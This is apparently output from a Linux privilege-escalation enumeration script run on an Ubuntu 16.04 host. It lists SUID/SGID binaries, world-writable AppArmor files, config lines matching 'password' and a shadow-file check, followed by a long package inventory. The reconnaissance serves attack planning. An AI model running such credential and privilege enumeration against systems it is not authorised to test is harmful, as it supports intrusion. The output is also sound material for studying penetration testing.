    -rw-rw-rw- 1 root root 0 Sep 25 11:09 /sys/kernel/security/apparmor/.remove
    -rw-rw-rw- 1 root root 0 Sep 25 11:09 /sys/kernel/security/apparmor/.replace
    -rw-rw-rw- 1 root root 0 Sep 25 11:09 /sys/kernel/security/apparmor/.load

[+] Checking if root's home folder is accessible

[+] SUID/SGID Files and Directories
    drwxrwsr-x 2 root mail 4096 Sep 25 15:37 /var/mail
    drwx--s--- 2 postfix postdrop 4096 Sep 25 14:10 /var/spool/postfix/public
    drwxrwsr-x 2 root staff 4096 Apr 12  2016 /var/local
    -rwsr-xr-x 1 root root 36288 Mar 29  2016 /usr/bin/newuidmap
    -rwsr-xr-x 1 root root 39560 Mar 29  2016 /usr/bin/chsh
    -rwsr-xr-x 1 root root 159852 Mar 30  2016 /usr/bin/sudo
    -rwsr-xr-x 1 root root 48264 Mar 29  2016 /usr/bin/chfn
    -rwsr-xr-x 1 root root 18216 Jan 17  2016 /usr/bin/pkexec
    -rwxr-sr-x 1 root shadow 22000 Mar 29  2016 /usr/bin/expiry
    -rwsr-xr-x 1 root root 36288 Mar 29  2016 /usr/bin/newgidmap
    -rwsr-sr-x 1 daemon daemon 50748 Jan 14  2016 /usr/bin/at
    -rwxr-sr-x 1 root ssh 427536 Apr 16  2016 /usr/bin/ssh-agent
    -rwxr-sr-x 1 root shadow 61276 Mar 29  2016 /usr/bin/chage
    -rwsr-xr-x 1 root root 53128 Mar 29  2016 /usr/bin/passwd
    -rwsr-xr-x 1 root root 34680 Mar 29  2016 /usr/bin/newgrp
    -rwxr-sr-x 1 root tty 26356 Apr 13  2016 /usr/bin/wall
    -rwxr-sr-x 1 root crontab 38996 Apr  5  2016 /usr/bin/crontab
    -rwsr-xr-x 1 root root 78012 Mar 29  2016 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 22268 Apr 29  2016 /usr/bin/ubuntu-core-launcher
    -rwxr-sr-x 1 root utmp 464152 Feb  7  2016 /usr/bin/screen
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/share/fonts
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/share/zsh/site-functions
    drwxrwsr-x 7 root staff 4096 Jun  3  2016 /usr/local/share/sgml
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/share/sgml/dtd
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/share/sgml/entities
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/share/sgml/misc
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/share/sgml/declaration
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/share/sgml/stylesheet
    drwxrwsr-x 6 root staff 4096 Jun  6  2016 /usr/local/share/xml
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/share/xml/schema
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/share/xml/entities
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/share/xml/misc
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/share/xml/declaration
    drwxrwsr-x 3 root staff 4096 Jun  3  2016 /usr/local/lib/python3.5
    drwxrwsr-x 2 root staff 4096 Apr 20  2016 /usr/local/lib/python3.5/dist-packages
    drwxrwsr-x 4 root staff 4096 Jun  3  2016 /usr/local/lib/python2.7
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/lib/python2.7/dist-packages
    drwxrwsr-x 2 root staff 4096 Jun  3  2016 /usr/local/lib/python2.7/site-packages
    -rwsr-xr-x 1 root root 513528 Apr 16  2016 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 5480 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 13960 Jan 17  2016 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-x 1 root root 38300 Apr 19  2016 /usr/lib/i386-linux-gnu/lxc/lxc-user-nic
    -rwxr-sr-x 1 root utmp 5480 Mar 11  2016 /usr/lib/i386-linux-gnu/utempter/utempter
    -rwsr-xr-- 1 root messagebus 46436 Apr  1  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 9760 Jul 26  2015 /usr/lib/authbind/helper
    -r-xr-sr-x 1 root postdrop 17716 Apr 13  2016 /usr/sbin/postqueue
    -r-xr-sr-x 1 root postdrop 13636 Apr 13  2016 /usr/sbin/postdrop
    -rwsr-xr-x 1 root root 34812 Apr 13  2016 /bin/mount
    -rwsr-xr-x 1 root root 26492 Apr 13  2016 /bin/umount
    -rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
    -rwsr-xr-x 1 root root 30112 Mar 11  2016 /bin/fusermount
    -rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
    -rwsr-xr-x 1 root root 38900 Mar 29  2016 /bin/su
    -rwxr-sr-x 1 root shadow 38664 Mar 16  2016 /sbin/unix_chkpwd
    -rwxr-sr-x 1 root shadow 38684 Mar 16  2016 /sbin/pam_extrausers_chkpwd
    drwxr-sr-x 3 root systemd-journal 60 Sep 25 14:09 /run/log/journal
    drwxr-s---+ 2 root systemd-journal 100 Sep 25 15:37 /run/log/journal/6bcd20ace5721b4ec51742d557517d58

[+] Logs containing keyword 'password'

[+] Config files containing keyword 'password'
    /etc/apache2/sites-enabled/000-default.conf:		#	 Note that no password is obtained from the user. Every entry in the user
    /etc/apache2/sites-enabled/000-default.conf:		#	 file needs this password: `xxj31ZMTZzkVA'.
    /etc/apache2/sites-available/default-ssl.conf:		#	 Note that no password is obtained from the user. Every entry in the user
    /etc/apache2/sites-available/default-ssl.conf:		#	 file needs this password: `xxj31ZMTZzkVA'.
    /etc/overlayroot.conf:#       if not provided or empty, password is randomly generated
    /etc/overlayroot.conf:#     crypt:dev=/dev/vdb,pass=somepassword,mkfs=0
    /etc/overlayroot.conf:#    Randomly generated passwords are more secure, but you won't be able to
    /etc/overlayroot.conf:#    Randomly generated passwords are generated by calculating the sha512sum
    /etc/samba/smb.conf:# If you are using encrypted passwords, Samba will need to know what
    /etc/samba/smb.conf:# password database type you are using.
    /etc/samba/smb.conf:# password with the SMB password when the encrypted SMB password in the
    /etc/samba/smb.conf:   unix password sync = yes
    /etc/samba/smb.conf:# For Unix password sync to work on a Debian GNU/Linux system, the following
    /etc/samba/smb.conf:   passwd chat = *Enter\snew\s*\spassword:* %n\n *Retype\snew\s*\spassword:* %n\n *password\supdated\ssuccessfully* .
    /etc/samba/smb.conf:# This boolean controls whether PAM will be used for password changes
    /etc/samba/smb.conf:   pam password change = yes
    /etc/samba/smb.conf:# password; please adapt to your needs
    /etc/samba/smb.conf:; add user script = /usr/sbin/adduser --quiet --disabled-password --gecos "" %u
    /etc/dnsmasq.conf:#dhcp-option=encap:175, 191, pass     # iSCSI password
    /etc/mysql/my.cnf.fallback:# It has been reported that passwords should be enclosed with ticks/quotes
    /etc/mysql/mysql.conf.d/mysqld.cnf:# It has been reported that passwords should be enclosed with ticks/quotes
    /etc/debconf.conf:# World-readable, and accepts everything but passwords.
    /etc/debconf.conf:Reject-Type: password
    /etc/debconf.conf:# Not world readable (the default), and accepts only passwords.
    /etc/debconf.conf:Name: passwords
    /etc/debconf.conf:Accept-Type: password
    /etc/debconf.conf:Filename: /var/cache/debconf/passwords.dat
    /etc/debconf.conf:# databases, one to hold passwords and one for everything else.
    /etc/debconf.conf:Stack: config, passwords
    /etc/debconf.conf:# A remote LDAP database. It is also read-only. The password is really
    /etc/ssl/openssl.cnf:# input_password = secret
    /etc/ssl/openssl.cnf:# output_password = secret
    /etc/ssl/openssl.cnf:challengePassword		= A challenge password

[+] Shadow File (Privileged)

[*] ENUMERATING PROCESSES AND APPLICATIONS...

[+] Installed Packages
    Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
    Err?=(none)/Reinst-required (Status,Err:
    Name Version  Description
    acl 2.2.52-3  Access control list utilities
    acpid 1:2.0.26-1ubuntu2  Advanced Configuration and Power Interface event daemon
    adduser 3.113+nmu3ubuntu4  add and remove users and groups
    apache2 2.4.18-2ubuntu3  Apache HTTP Server
    apache2-bin 2.4.18-2ubuntu3  Apache HTTP Server (modules and other binary files)
    apache2-data 2.4.18-2ubuntu3  Apache HTTP Server (common files)
    apache2-utils 2.4.18-2ubuntu3  Apache HTTP Server (utility programs for web servers)
    apparmor 2.10.95-0ubuntu2  user-space parser utility for AppArmor
    apport 2.20.1-0ubuntu2  automatically generate crash reports for debugging
    apport-symptoms 0.20  symptom scripts for apport
    apt 1.2.10ubuntu1  commandline package manager
    apt-utils 1.2.10ubuntu1  package management related utility programs
    at 3.1.18-2ubuntu1  Delayed job execution and batch processing
    atftpd 0.7.git20120829-2.1  advanced TFTP server
    attr 1:2.4.47-2  Utilities for manipulating filesystem extended attributes
    authbind 2.1.1+nmu1  Allows non-root programs to bind() to low ports
    base-files 9.4ubuntu4  Debian base system miscellaneous files
    base-passwd 3.5.39  Debian base system master password and group files
    bash 4.3-14ubuntu1  GNU Bourne Again SHell
    bcache-tools 1.0.8-2  bcache userspace tools
    binutils 2.26-8ubuntu2.1  GNU assembler, linker and binary utilities
    bsdutils 1:2.27.1-6ubuntu3  basic utilities from 4.4BSD-Lite
    btrfs-tools 4.4-1  Checksumming Copy on Write Filesystem utilities
    build-essential 12.1ubuntu2  Informational list of build-essential packages
    busybox-initramfs 1:1.22.0-15ubuntu1  Standalone shell setup for initramfs
    busybox-static 1:1.22.0-15ubuntu1  Standalone rescue shell with tons of builtin utilities
    byobu 5.106-0ubuntu1  text window manager, shell multiplexer, integrated DevOps environment
    bzip2 1.0.6-8  high-quality block-sorting file compressor - utilities
    ca-certificates 20160104ubuntu1  Common CA certificates
    cloud-guest-utils 0.27-0ubuntu24  cloud guest utilities
    cloud-initramfs-copymods 0.27ubuntu1  copy initramfs modules into root filesystem for later use
    cloud-initramfs-dyn-netconf 0.27ubuntu1  write a network interface file in /run for BOOTIF
    console-setup 1.108ubuntu15  console font and keymap setup program
    console-setup-linux 1.108ubuntu15  Linux specific part of console-setup
    coreutils 8.25-2ubuntu2  GNU core utilities
    cpio 2.11+dfsg-5ubuntu1  GNU cpio -- a program to manage archives of files
    cpp 4:5.3.1-1ubuntu1  GNU C preprocessor (cpp)
    cpp-5 5.3.1-14ubuntu2.1  GNU C preprocessor
    crda 3.13-1  wireless Central Regulatory Domain Agent
    cron 3.0pl1-128ubuntu2  process scheduling daemon
    cryptsetup 2:1.6.6-5ubuntu2  disk encryption support - startup scripts
    cryptsetup-bin 2:1.6.6-5ubuntu2  disk encryption support - command line tools
    curl 7.47.0-1ubuntu2  command line tool for transferring data with URL syntax
    dash 0.5.8-2.1ubuntu2  POSIX-compliant shell
    dbconfig-common 2.0.4ubuntu1  framework that helps packages to manage databases
    dbconfig-mysql 2.0.4ubuntu1  dbconfig-common MySQL/MariaDB support
    dbus 1.10.6-1ubuntu3  simple interprocess messaging system (daemon and utilities)
    debconf 1.5.58ubuntu1  Debian configuration management system
    debconf-i18n 1.5.58ubuntu1  full internationalization support for debconf
    debianutils 4.7  Miscellaneous utilities specific to Debian
    dh-python 2.20151103ubuntu1  Debian helper tools for packaging Python libraries and applications
    diffutils 1:3.3-3  File comparison utilities
    distro-info-data 0.28ubuntu0.1  information about the distributions' releases (data files)
    dmeventd 2:1.02.110-1ubuntu10  Linux Kernel Device Mapper event daemon
    dmidecode 3.0-2  SMBIOS/DMI table decoder
    dmsetup 2:1.02.110-1ubuntu10  Linux Kernel Device Mapper userspace library
    dns-root-data 2015052300+h+1  DNS root data including root zone and DNSSEC key
    dnsmasq 2.75-1  Small caching DNS proxy and DHCP/TFTP server
    dnsmasq-base 2.75-1  Small caching DNS proxy and DHCP/TFTP server
    dpkg 1.18.4ubuntu1  Debian package management system
    dpkg-dev 1.18.4ubuntu1.1  Debian package development tools
    e2fslibs:i386 1.42.13-1ubuntu1  ext2/ext3/ext4 file system libraries
    e2fsprogs 1.42.13-1ubuntu1  ext2/ext3/ext4 file system utilities
    eject 2.1.5+deb1+cvs20081104-13.1  ejects CDs and operates CD-Changers under Linux
    ethtool 1:4.5-1  display or change Ethernet device settings
    fakeroot 1.20.2-1ubuntu1  tool for simulating superuser privileges
    file 1:5.25-2ubuntu1  Determines file type using "magic" numbers
    findutils 4.6.0+git+20160126-2  utilities for finding files--find, xargs
    fontconfig-config 2.11.94-0ubuntu1  generic font configuration library - configuration
    fonts-dejavu-core 2.35-1  Vera font family derivate with additional characters
    fonts-ubuntu-font-family-console 1:0.83-0ubuntu2  Ubuntu Font Family Linux console fonts, sans-serif monospace
    ftp 0.17-33  classical file transfer client
    fuse 2.9.4-1ubuntu3  Filesystem in Userspace
    g++ 4:5.3.1-1ubuntu1  GNU C++ compiler
    g++-5 5.3.1-14ubuntu2.1  GNU C++ compiler
    gawk 1:4.1.3+dfsg-0.1  GNU awk, a pattern scanning and processing language
    gcc 4:5.3.1-1ubuntu1  GNU C compiler
    gcc-5 5.3.1-14ubuntu2.1  GNU C compiler
    gcc-5-base:i386 5.3.1-14ubuntu2.1  GCC, the GNU Compiler Collection (base package)
    gcc-6-base:i386 6.0.1-0ubuntu1  GCC, the GNU Compiler Collection (base package)
    gettext-base 0.19.7-2ubuntu3  GNU Internationalization utilities for the base system
    gir1.2-glib-2.0:i386 1.46.0-3ubuntu1  Introspection data for GLib, GObject, Gio and GModule
    git 1:2.7.4-0ubuntu1  fast, scalable, distributed revision control system
    git-man 1:2.7.4-0ubuntu1  fast, scalable, distributed revision control system (manual pages)
    gnupg 1.4.20-1ubuntu3  GNU privacy guard - a free PGP replacement
    gpgv 1.4.20-1ubuntu3  GNU privacy guard - signature verification tool
    grep 2.24-1  GNU grep, egrep and fgrep
    grub-common 2.02~beta2-36ubuntu3  GRand Unified Bootloader (common files)
    grub-gfxpayload-lists 0.7  GRUB gfxpayload blacklist
    grub-legacy-ec2 0.7.7~bzr1212-0ubuntu1  Handles update-grub for ec2 instances
    grub-pc 2.02~beta2-36ubuntu3  GRand Unified Bootloader, version 2 (PC/BIOS version)
    grub-pc-bin 2.02~beta2-36ubuntu3  GRand Unified Bootloader, version 2 (PC/BIOS binaries)
    grub2-common 2.02~beta2-36ubuntu3  GRand Unified Bootloader (common files for version 2)
    gzip 1.6-4ubuntu1  GNU compression utilities
    hostname 3.16ubuntu2  utility to set/show the host name or domain name
    ifenslave 2.7ubuntu1  configure network interfaces for parallel routing (bonding)
    ifupdown 0.8.10ubuntu1  high level tools to configure network interfaces
    inetutils-inetd 2:1.9.4-1build1  internet super server
    init 1.29ubuntu1  System-V-like init utilities - metapackage
    init-system-helpers 1.29ubuntu1  helper tools for all init systems
    initramfs-tools 0.122ubuntu8  generic modular initramfs generator (automation)
    initramfs-tools-bin 0.122ubuntu8  binaries used by initramfs-tools
    initramfs-tools-core 0.122ubuntu8  generic modular initramfs generator (core tools)
    initscripts 2.88dsf-59.3ubuntu2  scripts for initializing and shutting down the system
    insserv 1.14.0-5ubuntu3  boot sequence organizer using LSB init.d script dependency information
    installation-report 2.60ubuntu1  system installation report
    iproute2 4.3.0-1ubuntu3  networking and traffic control tools
    iptables 1.6.0-2ubuntu3  administration tools for packet filtering and NAT
    iptables-persistent 1.0.4  boot-time loader for netfilter rules, iptables plugin
    iputils-ping 3:20121221-5ubuntu2  Tools to test the reachability of network hosts
    isc-dhcp-client 4.3.3-5ubuntu12  DHCP client for automatically obtaining an IP address
    isc-dhcp-common 4.3.3-5ubuntu12  common files used by all of the isc-dhcp packages
    iso-codes 3.65-1  ISO language, territory, currency, script codes and their translations
    iw 3.17-1  tool for configuring Linux wireless devices
    javascript-common 11  Base support for JavaScript library packages
    kbd 1.15.5-1ubuntu4  Linux console font and keytable utilities
    keyboard-configuration 1.108ubuntu15  system-wide keyboard preferences
    klibc-utils 2.0.4-8ubuntu1  small utilities built with klibc for early boot
    kmod 22-1ubuntu4  tools for managing Linux kernel modules
    krb5-locales 1.13.2+dfsg-5  Internationalization support for MIT Kerberos
    language-pack-en 1:16.04+20160415  translation updates for language English
    language-pack-en-base 1:16.04+20160415  translations for language English
    laptop-detect 0.13.7ubuntu2  attempt to detect a laptop
    less 481-2.1  pager program similar to more
    libacl1:i386 2.2.52-3  Access control list shared library
    libaio1:i386 0.3.110-2  Linux kernel AIO access library - shared library
    libalgorithm-diff-perl 1.19.03-1  module to find differences between files
    libalgorithm-diff-xs-perl 0.04-4build1  module to find differences between files (XS accelerated)
    libalgorithm-merge-perl 0.08-3  Perl module for three-way merge of textual data
    libapache2-mod-php7.0 7.0.4-7ubuntu2.1  server-side, HTML-embedded scripting language (Apache 2 module)
    libapparmor-perl 2.10.95-0ubuntu2  AppArmor library Perl bindings
    libapparmor1:i386 2.10.95-0ubuntu2  changehat AppArmor library
    libapr1:i386 1.5.2-3  Apache Portable Runtime Library
    libaprutil1:i386 1.5.4-1build1  Apache Portable Runtime Utility Library
    libaprutil1-dbd-sqlite3:i386 1.5.4-1build1  Apache Portable Runtime Utility Library - SQLite3 Driver
    libaprutil1-ldap:i386 1.5.4-1build1  Apache Portable Runtime Utility Library - LDAP Driver
    libapt-inst2.0:i386 1.2.10ubuntu1  deb package format runtime library
    libapt-pkg5.0:i386 1.2.10ubuntu1  package management runtime library
    libasan2:i386 5.3.1-14ubuntu2.1  AddressSanitizer -- a fast memory error detector
    libasn1-8-heimdal:i386 1.7~git20150920+dfsg-4ubuntu1  Heimdal Kerberos - ASN.1 library
    libasprintf0v5:i386 0.19.7-2ubuntu3  GNU library to use fprintf and friends in C++
    libatm1:i386 1:2.5.1-1.5  shared library for ATM (Asynchronous Transfer Mode)
    libatomic1:i386 5.3.1-14ubuntu2.1  support library providing __atomic built-in functions
    libattr1:i386 1:2.4.47-2  Extended attribute shared library
    libaudit-common 1:2.4.5-1ubuntu2  Dynamic library for security auditing - common files
    libaudit1:i386 1:2.4.5-1ubuntu2  Dynamic library for security auditing
    libavahi-client3:i386 0.6.32~rc+dfsg-1ubuntu2  Avahi client library
    libavahi-common-data:i386 0.6.32~rc+dfsg-1ubuntu2  Avahi common data files
    libavahi-common3:i386 0.6.32~rc+dfsg-1ubuntu2  Avahi common library
    libblkid1:i386 2.27.1-6ubuntu3  block device ID library
    libbsd0:i386 0.8.2-1  utility functions from BSD systems - shared library
    libbz2-1.0:i386 1.0.6-8  high-quality block-sorting file compressor library - runtime
    libc-bin 2.23-0ubuntu3  GNU C Library: Binaries
    libc-dev-bin 2.23-0ubuntu3  GNU C Library: Development binaries
    libc6:i386 2.23-0ubuntu3  GNU C Library: Shared libraries
    libc6-dev:i386 2.23-0ubuntu3  GNU C Library: Development Libraries and Header Files
    libcap-ng0:i386 0.7.7-1  An alternate POSIX capabilities library
    libcap2:i386 1:2.24-12  POSIX 1003.1e capabilities (library)
    libcap2-bin 1:2.24-12  POSIX 1003.1e capabilities (utilities)
    libcc1-0:i386 5.3.1-14ubuntu2.1  GCC cc1 plugin for GDB
    libcgi-fast-perl 1:2.10-1  CGI subclass for work with FCGI
    libcgi-pm-perl 4.26-1  module for Common Gateway Interface applications
    libcilkrts5:i386 5.3.1-14ubuntu2.1  Intel Cilk Plus language extensions (runtime)
    libcomerr2:i386 1.42.13-1ubuntu1  common error description library
    libcryptsetup4:i386 2:1.6.6-5ubuntu2  disk encryption support - shared library
    libcups2:i386 2.1.3-4  Common UNIX Printing System(tm) - Core library
    libcurl3-gnutls:i386 7.47.0-1ubuntu2  easy-to-use client-side URL transfer library (GnuTLS flavour)
    libdb5.3:i386 5.3.28-11  Berkeley v5.3 Database Libraries [runtime]
    libdbus-1-3:i386 1.10.6-1ubuntu3  simple interprocess messaging system (library)
    libdbus-glib-1-2:i386 0.106-1  simple interprocess messaging system (GLib-based shared library)
    libdebconfclient0:i386 0.198ubuntu1  Debian Configuration Management System (C-implementation library)
    libdevmapper-event1.02.1:i386 2:1.02.110-1ubuntu10  Linux Kernel Device Mapper event support library
    libdevmapper1.02.1:i386 2:1.02.110-1ubuntu10  Linux Kernel Device Mapper userspace library
    libdns-export162 1:9.10.3.dfsg.P4-8  Exported DNS Shared Library
    libdpkg-perl 1.18.4ubuntu1.1  Dpkg perl modules
    libdrm2:i386 2.4.67-1  Userspace interface to kernel DRM services -- runtime
    libdumbnet1:i386 1.12-7  dumb, portable networking library -- shared library
    libedit2:i386 3.1-20150325-1ubuntu2  BSD editline and history libraries
    libencode-locale-perl 1.05-1  utility to determine the locale encoding
    liberror-perl 0.17-1.2  Perl module for error/exception handling in an OO-ish way
    libestr0 0.1.10-1  Helper functions for handling strings (lib)
    libevent-2.0-5:i386 2.0.21-stable-2  Asynchronous event notification library
    libexpat1:i386 2.1.0-7ubuntu0.16.04.1  XML parsing C library - runtime library
    libfakeroot:i386 1.20.2-1ubuntu1  tool for simulating superuser privileges - shared libraries
    libfcgi-perl 0.77-1build1  helper module for FastCGI
    libfdisk1:i386 2.27.1-6ubuntu3  fdisk partitioning library
    libffi6:i386 3.2.1-4  Foreign Function Interface library runtime
    libfile-copy-recursive-perl 0.38-1  Perl extension for recursively copying files and directories
    libfile-fcntllock-perl 0.22-3  Perl module for file locking with fcntl(2)
    libfontconfig1:i386 2.11.94-0ubuntu1  generic font configuration library - runtime
    libfreetype6:i386 2.6.1-0.1ubuntu2  FreeType 2 font engine, shared library files
    libfribidi0:i386 0.19.7-1  Free Implementation of the Unicode BiDi algorithm
    libfuse-dev 2.9.4-1ubuntu3  Filesystem in Userspace (development)
    libfuse2:i386 2.9.4-1ubuntu3  Filesystem in Userspace (library)
    libgcc-5-dev:i386 5.3.1-14ubuntu2.1  GCC support library (development files)
    libgcc1:i386 1:6.0.1-0ubuntu1  GCC support library
    libgcrypt20:i386 1.6.5-2  LGPL Crypto library - runtime library
    libgd3:i386 2.1.1-4ubuntu0.16.04.1  GD Graphics Library
    libgdbm3:i386 1.8.3-13.1  GNU dbm database routines (runtime version)
    libgirepository-1.0-1:i386 1.46.0-3ubuntu1  Library for handling GObject introspection data (runtime library)
    libglib2.0-0:i386 2.48.0-1ubuntu4  GLib library of C routines
    libglib2.0-data 2.48.0-1ubuntu4  Common files for GLib library
    libgmp10:i386 2:6.1.0+dfsg-2  Multiprecision arithmetic library
    libgnutls-openssl27:i386 3.4.10-4ubuntu1  GNU TLS library - OpenSSL wrapper
    libgnutls30:i386 3.4.10-4ubuntu1  GNU TLS library - main runtime library
    libgomp1:i386 5.3.1-14ubuntu2.1  GCC OpenMP (GOMP) support library
    libgpg-error0:i386 1.21-2ubuntu1  library for common error values and messages in GnuPG components
    libgpm2:i386 1.20.4-6.1  General Purpose Mouse - shared library
    libgssapi-krb5-2:i386 1.13.2+dfsg-5  MIT Kerberos runtime libraries - krb5 GSS-API Mechanism
    libgssapi3-heimdal:i386 1.7~git20150920+dfsg-4ubuntu1  Heimdal Kerberos - GSSAPI support library
    libhcrypto4-heimdal:i386 1.7~git20150920+dfsg-4ubuntu1  Heimdal Kerberos - crypto library
    libheimbase1-heimdal:i386 1.7~git20150920+dfsg-4ubuntu1  Heimdal Kerberos - Base library
    libheimntlm0-heimdal:i386 1.7~git20150920+dfsg-4ubuntu1  Heimdal Kerberos - NTLM support library
    libhogweed4:i386 3.2-1  low level cryptographic library (public-key cryptos)
    libhtml-parser-perl 3.72-1  collection of modules that parse HTML text documents
    libhtml-tagset-perl 3.20-2  Data tables pertaining to HTML
    libhtml-template-perl 2.95-2  module for using HTML templates with Perl
    libhttp-date-perl 6.02-1  module of date conversion routines
    libhttp-message-perl 6.11-1  perl interface to HTTP style messages
    libhx509-5-heimdal:i386 1.7~git20150920+dfsg-4ubuntu1  Heimdal Kerberos - X509 support library
    libicu55:i386 55.1-7  International Components for Unicode
    libidn11:i386 1.32-3ubuntu1  GNU Libidn library, implementation of IETF IDN specifications
    libio-html-perl 1.001-1  open an HTML file with automatic charset detection
    libisc-export160 1:9.10.3.dfsg.P4-8  Exported ISC Shared Library
    libisl15:i386 0.16.1-1  manipulating sets and relations of integer points bounded by linear constraints
    libitm1:i386 5.3.1-14ubuntu2.1  GNU Transactional Memory Library
    libjbig0:i386 2.1-3.1  JBIGkit libraries
    libjpeg-turbo8:i386 1.4.2-0ubuntu3  IJG JPEG compliant runtime library.
    libjpeg8:i386 8c-2ubuntu8  Independent JPEG Group's JPEG runtime library (dependency package)
    libjs-jquery 1.11.3+dfsg-4  JavaScript library for dynamic web applications
    libjs-sphinxdoc 1.3.6-2ubuntu1  JavaScript support for Sphinx documentation
    libjs-underscore 1.7.0~dfsg-1ubuntu1  JavaScript's functional programming helper library
    libjson-c2:i386 0.11-4ubuntu2  JSON manipulation library - shared library
    libk5crypto3:i386 1.13.2+dfsg-5  MIT Kerberos runtime libraries - Crypto Library
    libkeyutils1:i386 1.5.9-8ubuntu1  Linux Key Management Utilities (library)
    libklibc 2.0.4-8ubuntu1  minimal libc subset for use with initramfs
    libkmod2:i386 22-1ubuntu4  libkmod shared library
    libkrb5-26-heimdal:i386 1.7~git20150920+dfsg-4ubuntu1  Heimdal Kerberos - libraries
    libkrb5-3:i386 1.13.2+dfsg-5  MIT Kerberos runtime libraries
    libkrb5support0:i386 1.13.2+dfsg-5  MIT Kerberos runtime libraries - Support library
    libldap-2.4-2:i386 2.4.42+dfsg-2ubuntu3  OpenLDAP libraries
    libldb1:i386 2:1.1.24-1ubuntu3  LDAP-like embedded database - shared library
    liblocale-gettext-perl 1.07-1build1  module using libc functions for internationalization in Perl
    liblua5.1-0:i386 5.1.5-8ubuntu1  Shared library for the Lua interpreter version 5.1
    liblvm2app2.2:i386 2.02.133-1ubuntu10  LVM2 application library
    liblvm2cmd2.02:i386 2.02.133-1ubuntu10  LVM2 command library
    liblwp-mediatypes-perl 6.02-1  module to guess media type for a file or a URL
    liblxc1 2.0.0-0ubuntu2  Linux Containers userspace tools (library)
    liblz4-1:i386 0.0~r131-2ubuntu2  Fast LZ compression algorithm library - runtime
    liblzma5:i386 5.1.1alpha+20120614-2ubuntu2  XZ-format compression library
    liblzo2-2:i386 2.08-1.2  data compression library
    libmagic1:i386 1:5.25-2ubuntu1  File type determination library using "magic" numbers
    libmcrypt4 2.5.8-3.3  De-/Encryption Library
    libmnl0:i386 1.0.3-5  minimalistic Netlink communication library
    libmount1:i386 2.27.1-6ubuntu3  device mounting library
    libmpc3:i386 1.0.3-1  multiple precision complex floating-point library
    libmpdec2:i386 2.4.2-1  library for decimal floating point arithmetic (runtime library)
    libmpfr4:i386 3.1.4-1  multiple precision floating-point computation
    libmpx0:i386 5.3.1-14ubuntu2.1  Intel memory protection extensions (runtime)
    libmspack0:i386 0.5-1  library for Microsoft compression formats (shared library)
    libncurses5:i386 6.0+20160213-1ubuntu1  shared libraries for terminal handling
    libncursesw5:i386 6.0+20160213-1ubuntu1  shared libraries for terminal handling (wide character support)
    libnetfilter-conntrack3:i386 1.0.5-1  Netfilter netlink-conntrack library
    libnettle6:i386 3.2-1  low level cryptographic library (symmetric and one-way cryptos)
    libnewt0.52:i386 0.52.18-1ubuntu2  Not Erik's Windowing Toolkit - text mode windowing with slang
    libnfnetlink0:i386 1.0.1-3  Netfilter netlink library
    libnih1:i386 1.0.3-4.3ubuntu1  NIH Utility Library
    libnl-3-200:i386 3.2.27-1  library for dealing with netlink sockets
    libnl-genl-3-200:i386 3.2.27-1  library for dealing with netlink sockets - generic netlink
    libp11-kit0:i386 0.23.2-3  Library for loading and coordinating access to PKCS#11 modules - runtime
    libpam-modules:i386 1.1.8-3.2ubuntu2  Pluggable Authentication Modules for PAM
    libpam-modules-bin 1.1.8-3.2ubuntu2  Pluggable Authentication Modules for PAM - helper binaries
    libpam-runtime 1.1.8-3.2ubuntu2  Runtime support for the PAM library
    libpam-systemd:i386 229-4ubuntu4  system and service manager - PAM module
    libpam0g:i386 1.1.8-3.2ubuntu2  Pluggable Authentication Modules library
    libpci3:i386 1:3.3.1-1.1ubuntu1  Linux PCI Utilities (shared library)
    libpcre16-3:i386 2:8.38-3.1  Perl 5 Compatible Regular Expression Library - 16 bit runtime files
    libpcre3:i386 2:8.38-3.1  Perl 5 Compatible Regular Expression Library - runtime files
    libpcre3-dev:i386 2:8.38-3.1  Perl 5 Compatible Regular Expression Library - development files
    libpcre32-3:i386 2:8.38-3.1  Perl 5 Compatible Regular Expression Library - 32 bit runtime files
    libpcrecpp0v5:i386 2:8.38-3.1  Perl 5 Compatible Regular Expression Library - C++ runtime files
    libperl5.22:i386 5.22.1-9  shared Perl library
    libplymouth4:i386 0.9.2-3ubuntu13  graphical boot animation and logger - shared libraries
    libpng12-0:i386 1.2.54-1ubuntu1  PNG library - runtime
    libpolkit-agent-1-0:i386 0.105-14.1  PolicyKit Authentication Agent API
    libpolkit-backend-1-0:i386 0.105-14.1  PolicyKit backend API
    libpolkit-gobject-1-0:i386 0.105-14.1  PolicyKit Authorization API
    libpopt0:i386 1.16-10  lib for parsing cmdline parameters
    libprocps4:i386 2:3.3.10-4ubuntu2  library for accessing process information from /proc
    libpython-stdlib:i386 2.7.11-1  interactive high-level object-oriented language (default python version)
    libpython2.7:i386 2.7.11-7ubuntu1  Shared Python runtime library (version 2.7)
    libpython2.7-minimal:i386 2.7.11-7ubuntu1  Minimal subset of the Python language (version 2.7)
    libpython2.7-stdlib:i386 2.7.11-7ubuntu1  Interactive high-level object-oriented language (standard library, version 2.7)
    libpython3-stdlib:i386 3.5.1-3  interactive high-level object-oriented language (default python3 version)
    libpython3.5-minimal:i386 3.5.1-10  Minimal subset of the Python language (version 3.5)
    libpython3.5-stdlib:i386 3.5.1-10  Interactive high-level object-oriented language (standard library, version 3.5)
